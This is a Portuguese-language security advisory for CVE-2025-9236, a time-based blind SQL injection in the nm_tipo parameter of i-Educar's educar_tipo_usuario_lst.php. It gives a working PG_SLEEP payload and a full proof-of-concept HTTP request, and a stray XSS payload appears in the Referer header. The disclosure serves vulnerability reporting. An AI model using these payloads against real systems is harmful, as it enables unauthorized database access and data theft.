

## CVE-2025-9236: Vulnerabilidade de Injeção SQL (Blind Time-Based) no parâmetro `nm_tipo` do Endpoint `educar_tipo_usuario_lst.php`

> *Publicação CVE: https://www.cve.org/CVERecord?id=CVE-2025-9236*

## Resumo

<p style="text-align: justify;">Uma vulnerabilidade de injeção SQL foi descoberta no parâmetro <code>nm_tipo</code> do endpoint <code>educar_tipo_usuario_lst.php</code>. Esse problema permite que qualquer invasor não autenticado injete consultas SQL arbitrárias, potencialmente levando a acesso não autorizado aos dados ou exploração adicional, dependendo da configuração do banco de dados.</p>

## Detalhes

<p style="text-align: justify;">O aplicativo não consegue sanitizar adequadamente a entrada fornecida pelo usuário no parâmetro <code>nm_tipo</code>. Como resultado, payloads SQL especialmente criados são interpretados diretamente pelo banco de dados de back-end.</p>

## PoC

Endpoint Vulnerável: `educar_tipo_usuario_lst.php`

Parâmetro: `nm_tipo`

### Payload:

```terminal
' AND 8767=(SELECT 8767 FROM PG_SLEEP(10)) OR 'EgwO'='pMdZ
```

#### Examplo de Requisição

```terminal
GET /intranet/educar_tipo_usuario_lst.php?busca=S&nm_tipo=1'%20AND%208767%3D(SELECT%208767%20FROM%20PG_SLEEP(10))%20OR%20'EgwO'%3D'pMdZ&descricao=1&nivel=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/intranet/educar_tipo_usuario_lst.php?busca=S&nm_tipo=%22%3E%3Csvg+onload%3Dalert%2812%29%3E&descricao=%22%3E%3Csvg+onload%3Dalert%2812%29%3E&nivel=-1
Cookie: grav-admin-flexpages=eyJyb3V0ZSI6Ii9ob21lIiwiZmlsdGVycyI6e319; grav-tabs-state={%22tab--f0e041eed24f87f2b6b02fd6924d0a08%22:%22data.languages%22%2C%22tab-flex-pages-e838602f51515c83bca06a8ae758ce52%22:%22data.security%22%2C%22tab-flex-pages-b6676b27f5cdf6b6c22f8e18da4259a0%22:%22data.advanced%22%2C%22tab-flex-pages-raw-8f0a83a672754f7823714134334b1de8%22:%22data.content%22%2C%22tab-flex-pages-dc26c564cb2116d77bda5fff24ba90dc%22:%22data.security%22%2C%22tab-flex_conf-user_groups-accounts-02f0e9f68f41a0648ed530f80bd72c06%22:%22data.cache%22%2C%22tab-flex-pages-raw-9a0364b9e99bb480dd25e1f0284c8555%22:%22data.content%22%2C%22tab-flex-pages-e91e6348157868de9dd8b25c81aebfb9%22:%22data.security%22%2C%22tab--8cc45760590da203c5fc3568ecbabd66%22:%22data.routes%22%2C%22tab--7a2ac3477f8ad14aa750831441325a16%22:%22data.facebook%22}; i_educar_session=hRnVO9PXmAH7dVAd7DsTeTgExwM6ccdtZZaCcpob
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```

<p style="text-align: justify;">Este payload introduz um atraso de tempo, demonstrando a capacidade de executar consultas SQL arbitrárias.</p>



<p style="text-align: justify;">Observe o atraso de tempo na resposta do servidor, indicando a execução bem-sucedida do payload SQL.</p>

## Impacto

<p style="text-align: justify;">
  <ul>
    <li>Acesso não autorizado a dados confidenciais (por exemplo, usuários, senhas, registros).</li>
    <li>Enumeração de banco de dados (esquemas, tabelas, usuários, versões).</li>
    <li>Escalonamento para RCE dependendo da configuração do banco de dados (por exemplo, xp_cmdshell, UDFs).</li>
    <li>Comprometimento total do aplicativo se encadeado com outras vulnerabilidades.</li>
    <li>Esse problema afeta todos os usuários e ambientes, pois não requer autenticação e pode ser acessado por meio de um ponto de extremidade público.</li>
  </ul>
</p>

## Referência

***[https://github.com/marcelomulder/CVE/blob/main/i-educar/CVE-2025-9236.md](https://github.com/marcelomulder/CVE/blob/main/i-educar/CVE-2025-9236.md)***

## Encontrado por:

[](http://www.linkedin.com/in/marceloqueirozjr) [Marcelo Queiroz](http://www.linkedin.com/in/marceloqueirozjr)

> ***By: [CVE-Hunters](https://github.com/CVE-Hunters/cve-hunters)***